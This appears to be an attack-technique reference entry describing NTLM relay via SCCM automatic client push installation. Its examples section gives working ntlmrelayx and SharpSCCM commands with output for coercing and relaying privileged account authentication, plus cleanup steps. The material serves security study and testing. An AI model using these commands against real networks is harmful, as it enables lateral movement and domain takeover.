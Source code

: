 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- Lateral Movement
- Privilege Escalation

## Requirements
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictNTLMInDomain` = `0` or not present, or = `X` and `DCAllowedNTLMServers` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0` or not present, or = `1` and `ClientAllowedNTLMServers` contains attacker relay server
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictNTLMInDomain` = `0` or not present, or = `X` and `DCAllowedNTLMServers` contains attacker relay server
    - `RestrictReceivingNTLMTraffic` = `0` or not present, or = `1` and `X` contains attacker relay server

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as Domain Admins for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its machine account. If SMB is used, TAKEOVER-1 and TAKEOVER-2 may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server.

## Defensive IDs


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

```
# impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
[2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
[2024-02-26 15:49:50] [*] Running in relay mode to single host
[2024-02-26 15:49:50] [*] Setting up SMB Server
[2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
[2024-02-26 15:49:50] [*] Setting up WCF Server
[2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

[2024-02-26 15:49:50] [*] Servers started, waiting for connections
```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

```
SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

  _______ _     _ _______  ______  _____  _______ _______ _______ _______
  |______ |_____| |_____| |_____/ |_____] |______ |       |       |  |  |
  ______| |     | |     | |    \_ |       ______| |______ |______ |  |  |    @_Mayyhem

[+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
[+] Reusable Base64-encoded certificate:

    308209D2...020207D0

[+] Discovering local properties for client registration request
[+] Modifying client registration request properties:
      FQDN: <NTLMRELAYX_LISTENER_IP>
      NetBIOS name: <NTLMRELAYX_LISTENER_IP>
      Site code: <SITECODE>
[+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
[+] Received unique SMS client GUID for new device:

    GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

[+] Discovering local properties for DDR inventory report
[+] Modifying DDR and inventory report properties
[+] Discovered PlatformID: Microsoft Windows NT Server 10.0
[+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
[+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
[+] Completed execution in 00:00:16.1952455
```

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
```
[2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
[2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
```

Note: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having Full Administrator privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With Full Administrator access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the administration console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

  _______ _     _ _______  ______  _____  _______ _______ _______ _______
  |______ |_____| |_____| |_____/ |_____] |______ |       |       |  |  |
  ______| |     | |     | |    \_ |       ______| |______ |______ |  |  |    @_Mayyhem

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

  _______ _     _ _______  ______  _____  _______ _______ _______ _______
  |______ |_____| |_____| |_____/ |_____] |______ |       |       |  |  |
  ______| |     | |     | |    \_ |       ______| |______ |______ |  |  |    @_Mayyhem

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Chris Thompson, SharpSCCM, https://github.com/Mayyhem/SharpSCCM